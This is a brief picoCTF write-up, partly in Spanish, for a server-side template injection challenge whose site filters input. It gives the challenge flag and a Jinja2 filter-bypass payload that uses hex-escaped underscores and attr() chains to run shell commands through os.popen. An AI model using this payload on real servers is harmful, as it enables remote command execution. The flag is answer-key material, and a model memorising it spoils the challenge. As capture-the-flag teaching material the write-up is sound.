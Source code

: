 ## Descripción

I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :)I heard templating is a cool and modular way to build web apps! Check out my website [here](http://shape-facility.picoctf.net:58114/)!
## Solución

# picoCTF{sst1_f1lt3r_byp4ss_a9824e27}
## Notas Adicionales

lo mismo que en SSTI1, pero usando este codigo: {{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}} , cambias id por cat flag
## Referencias
https://onsecurity.io/article/server-side-template-injection-with-jinja2

